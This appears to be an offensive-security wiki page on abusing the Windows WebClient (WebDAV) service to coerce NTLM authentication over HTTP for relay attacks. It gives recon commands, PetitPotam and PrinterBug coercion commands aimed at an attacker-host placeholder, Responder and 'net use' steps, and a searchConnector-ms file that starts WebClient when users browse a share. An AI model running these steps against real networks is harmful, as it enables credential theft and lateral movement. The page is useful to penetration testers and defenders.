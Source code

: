 # WebClient abuse (WebDAV)

## Theory

> Web Distributed Authoring and Versioning (WebDAV) is an extension to Hypertext Transfer Protocol (HTTP) that defines how basic file functions such as copy, move, delete, and create are performed by using HTTP ([docs.microsoft.com](https://docs.microsoft.com/en-us/windows/win32/webdav/webdav-portal))

The WebClient service needs to be enabled for WebDAV-based programs and features to work. As it turns out, the WebClient service can be indirectly abused by attackers to coerce authentications. This technique needs to be combined with other coercion techniques (e.g. [PetitPotam](ms-efsr.md), [PrinterBug](ms-rprn.md)) to act as a booster for these techniques. **It allows attackers to elicit authentications made over HTTP instead of SMB**, hence heightening [NTLM relay](../ntlm/relay.md) capabilities.

## Practice

### Recon

Attackers can remotely enumerate systems on which the WebClient is running, which is not uncommon in organizations that use OneDrive or SharePoint or when mounting drives with a WebDAV connection string.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be achieved with [webclientservicescanner](https://github.com/Hackndo/WebclientServiceScanner) (Python) or using [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python).

```bash
webclientservicescanner 'domain.local'/'user':'password'@'machine'
crackmapexec smb <IP> -d <DOMAIN> -u <USERT> -p <PASSWORD> -M webdav
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, this can be achived with [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus) (C, C#)

```bash
GetWebDAVStatus.exe 'machine'
```
{% endtab %}
{% endtabs %}

### Abuse

Regular coercion techniques rely on the attacker forcing a remote system to authenticate to another one. The "other" system is usually an IP address, a domain or NetBIOS name. With WebClient abuse, the other system needs to be supplied in a WebDAV Connection String format.

The WebDAV Connection String format is: `\\SERVER@PORT\PATH\TO\DIR`.

{% hint style="info" %}
To retrieve an authenticated connection, the remote server that attacker wants to victim to be relayed to [should be considered in the intranet zone](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#getting-intranet-zoned). One way to do it is to use the NetBIOS or DNS name of the attacker machine instead of its IP address.

In order to have a valid NetBIOS name, [Responder](https://github.com/lgandx/Responder) can be used.

A heftier alternative is to do some [ADIDNS poisoning](adidns-spoofing.md) to create and use a valid DNS entry.
{% endhint %}

Below are a few examples of WebClient abuse with [PrinterBug](../print-spooler-service/printerbug.md) and [PetitPotam](ms-efsr.md).

```bash
# PrinterBug
dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

# PetitPotam
Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
```

### Start the WebClient service

On a side note, making a remote system start the WebClient service can be done in many ways

{% tabs %}
{% tab title="Map a WebDAV server" %}
By mapping a remote WebDAV server. This can be done by having Responder's server up and by running the `net use` cmdlet.

```shell
# starting responder (in analyze mode to prevent poisoning)
responder --interface "eth0" --analyze
responder -I "eth0" -A

# map the drive from the target WebClient needs to be started on
net use x: http://$RESPONDER_IP/
```
{% endtab %}

{% tab title="searchConnector-ms" %}
With a [searchConnector-ms](https://docs.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) file uploaded to widely used share within the organisation. Each time a user browses the folder, the WebClient service will start transparently.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://whatever/</url>
    </simpleLocation>
</searchConnectorDescription>
```
{% endtab %}

{% tab title="Explorer" %}
By opening an interactive session with the target (e.g. RDP), opening the Explorer, and type something in the address bar.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://pentestlab.blog/2021/10/20/lateral-movement-webclient" %}

{% embed url="https://www.webdavsystem.com/server/access/windows" %}
